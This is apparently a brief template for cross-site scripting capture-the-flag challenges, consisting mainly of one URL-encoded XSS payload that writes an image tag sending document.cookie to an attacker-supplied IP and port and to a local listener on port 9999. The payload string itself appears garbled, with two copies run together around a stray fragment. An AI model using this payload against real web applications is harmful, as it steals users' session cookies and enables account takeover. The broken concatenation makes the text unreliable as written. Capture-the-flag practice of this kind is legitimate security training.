 # Template for XSS CTF Challenges

Entering the following payload will trigger the XSS bot (substituting in the attackers IP and PORT):

```
http://127.0.0.1:1337/%3Cscript%3Edocument.write('%3Cimg%20src=%22http://IP:PORT/?cookie=%27%20+%20document.cookie%20+%20%27%22%20/%3E%27)%3C/script%3E0.1:1337/%3Cscript%3Edocument.write('%3Cimg%20src=%22http://127.0.0.1:9999/?cookie=%27%20+%20document.cookie%20+%20%27%22%20/%3E%27)%3C/script%3E
```
